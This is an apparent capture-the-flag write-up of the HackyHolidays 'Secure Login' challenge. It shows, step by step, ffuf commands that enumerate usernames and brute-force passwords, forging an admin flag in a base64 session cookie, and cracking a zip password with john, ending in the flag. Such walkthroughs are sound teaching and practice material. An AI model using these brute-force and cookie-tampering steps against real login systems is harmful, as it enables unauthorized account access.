





# Secure Login

**Challenge URL:** https://hackyholidays.h1ctf.com/secure-login

## Methodology
A `secure` login page! Let's see how secure it really is...

<p align="center">
  
</p>

Once again, I tried several SQLi payloads but to no avail. I have also examined the page source, but there is nothing interesting. So, I don't think these are the correct ways to proceed. Taking a step back, I noticed that the response from the server kindly states if the `username` is `invalid`:

<p align="center">
  
</p>

Well, it appears that the verbosity of the error message means that it is time for fuzzing again. 😵

### Fuzz Faster, U Fool (ffuf)
This time round, my choice of tool is [ffuf](https://github.com/ffuf/ffuf). At least these challenges are guaranteed to be "fuzz-able"...

> Excerpt from Discord:
>
> 5. If anything ever requires fuzzing or brute forcing etc it’s never going to > be anything weird that a standard wordlist wouldn’t have in it.

The fuzzing constraints will be:
1. Using `names.txt` from Daniel Miessler's seclists [repository](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/api/objects.txt).
2. Filtering responses that contain the word "**Invalid Username**". 
3. Specifying the `Content-Type` header, setting it to `application/x-www-form-urlencoded`.

Resulting in the command:
```bash
$ ffuf -w /usr/share/seclists/Usernames/Names/names.txt -u https://hackyholidays.h1ctf.com/secure-login -X POST -d "username=FUZZ&password=1" -fr "Invalid Username" -H "Content-Type: application/x-www-form-urlencoded" -t 100
```

Putting it into action:
```bash
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : POST
 :: URL              : https://hackyholidays.h1ctf.com/secure-login
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=1
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Regexp: Invalid Username
________________________________________________

access                  [Status: 200, Size: 1724, Words: 464, Lines: 37]
:: Progress: [10177/10177] :: Job [1/1] :: 391 req/sec :: Duration: [0:00:26] :: Errors: 0 ::
```

We see that we have found the username `access`. Let's see what happens when we use it:

<p align="center">
  
</p>

`Invalid password`! Time to repeat the fuzzing process, but this time I will be using the good ol' `rockyou.txt` [wordlist](https://tools.kali.org/password-attacks/wordlists).

Updated fuzzing command:
```bash
$ ffuf -w /usr/share/wordlists/rockyou.txt -u https://hackyholidays.h1ctf.com/secure-login -X POST -d "username=access&password=FUZZ" -fr "Invalid Password" -H "Content-Type: application/x-www-form-urlencoded" -t 100
```

Putting it into action (again):
```bash
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : POST
 :: URL              : https://hackyholidays.h1ctf.com/secure-login
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=access&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Regexp: Invalid Password
________________________________________________

computer                [Status: 302, Size: 0, Words: 1, Lines: 1]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Gottem! The password for `access` is `computer`. Logging in, we see that we are not done yet:

<p align="center">
  
</p>

### Reach for the 🍪 Jar!

Well, since we have authenticated, surely there must be some new information stored in the cookies?

<p align="center">
  
</p>

Decoding this base-64 string, we get:
```bash
$ echo "eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=" | base64 -d; echo

{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}
```

What do you mean we are not `admin`?! Time to set things straight:
```bash
$ echo '{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":true}' | base64 -w 0; echo

eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQo=
```

Now, replacing the cookie in my session and refreshing the page, there is a zip file `my_secure_files_not_for_you.zip` available for download:

<p align="center">
  
</p>

### Crack that 🤐
The downloaded zip file is password protected, so it's time to get *crackin'*. The choice of [tool](https://tools.kali.org/password-attacks/john) is `john` which will help us crack the password used for this zip file.

First, generate the hash to be cracked from the zip using `zip2john`:

```bash
$ zip2john my_secure_files_not_for_you.zip > zip.hashes

$ cat zip.hashes
my_secure_files_not_for_you.zip:$pkzip2$2*2*1*0*8*24*277d*852f*f57c5a5d253be32229fca5ac0ca4f9dd30ccbc0f4f833a774b9968cc516519dd7a069d3f*2*0*37*2b*9de7c581*34892*42*0*37*9de7*82ca*e7912e9cabbdc2397338efa05165956aede557eea3211abd0cff3a55ac3a76445bfbf2de753ddadaf375ff95c94e5acb8db0965e450100*$/pkzip2$::my_secure_files_not_for_you.zip:flag.txt, xxx.png:my_secure_files_not_for_you.zip
```

Then, cracking it with `john`, using the `rockyou.txt` wordlist again:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt zip.hashes

...
hahahaha         (my_secure_files_not_for_you.zip)
...
```

Finally, extracting the zip file to obtain the flag:

```bash
$ unzip my_secure_files_not_for_you.zip

Archive:  my_secure_files_not_for_you.zip
[my_secure_files_not_for_you.zip] xxx.png password: hahahaha
  inflating: xxx.png                 
 extracting: flag.txt

$ cat flag.txt
flag{2e6f9bf8-fdbd-483b-8c18-bdf371b2b004}
```

*... if you are wondering what is inside `xxx.png`, here it is **(SFW)**:*

<p align="center">
  
</p>

**Flag:** `flag{2e6f9bf8-fdbd-483b-8c18-bdf371b2b004}`


## Thoughts
Yet another fuzzing challenge. It is "straightforward" but painful since there is nothing else to do while waiting for the fuzzer to do its magic. One of the key takeaways is choosing a suitable wordlist (as with all other fuzzing challenges). Also remembering how servers keep track of sessions (typically via `Cookies`) is important in the second half of this challenge.
